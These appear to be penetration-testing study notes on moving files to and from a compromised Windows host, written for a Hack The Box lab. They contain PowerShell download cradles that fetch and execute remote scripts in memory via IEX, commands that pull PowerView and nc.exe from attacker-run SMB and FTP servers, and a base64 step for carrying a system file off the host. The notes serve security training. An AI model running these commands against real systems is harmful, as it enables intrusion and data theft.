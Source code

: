 `PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1`

<aside>
💡 Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).

</aside>

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

This can be bypassed using the parameter `-UseBasicParsing`.

`PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX`

**Certificate not trusted error**

`PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('<Target File URL>')`

## **SMB Downloads**

`XeroCyb3r@htb[/htb]**$** sudo impacket-smbserver share -smb2support /tmp/smbshare`

`C:\htb> copy \\192.168.220.133\share\nc.exe`

With a username & password

`XeroCyb3r@htb[/htb]**$** sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test`

`C:\htb> net use n: \\192.168.220.133\share /user:test test`

## **FTP Downloads**

`XeroCyb3r@htb[/htb]**$** sudo pip3 install pyftpdlib`

`XeroCyb3r@htb[/htb]**$** sudo python3 -m pyftpdlib --port 21`

`PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

**Create a Command File for the FTP Client and Download the Target File**

`C:\htb> ftp -v -n -s:ftpcommand.txt`

# Upload Operations

`PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`

`PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash`

`XeroCyb3r@htb[/htb]**$** echo <Base64 hash> | base64 -d > hosts`
